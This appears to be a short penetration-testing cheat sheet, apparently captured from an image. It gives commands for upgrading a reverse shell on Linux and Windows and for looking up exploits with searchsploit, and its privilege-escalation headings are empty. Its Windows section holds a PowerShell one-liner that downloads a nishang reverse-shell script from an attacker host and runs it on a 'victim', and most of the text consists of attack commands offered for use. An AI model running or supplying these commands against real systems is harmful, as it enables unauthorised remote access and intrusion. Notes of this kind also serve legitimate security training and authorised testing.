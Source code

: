#### Upgrade *nix shell
```bash
# In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z 

# In Kali 
echo $TERM
stty raw -echo 
fg
```

#### Upgrade Windows shell
```bash
# If already in a shell on Windows… test for poweshell
powershell whoami

locate Invoke-PowershellTcp.ps1
# Cut PS > Invoke… line in script and paste to bottom

# Serve to victim
powershell “IEX(New-Object Net.WebClient).downloadString(‘http://kali:9999/nishang.ps1’)”
```

### Safe Metasploit
```bash
searchsploit apache 2.4 | grep -v '/dos/' # remove dos attacks
searchsploit apache 2.x | grep -v '/dos/' # generalize
searchsploit slmail
searchsploit x PATH
```

### Linux Privilege Escalation

### Windows Privilege Escalation








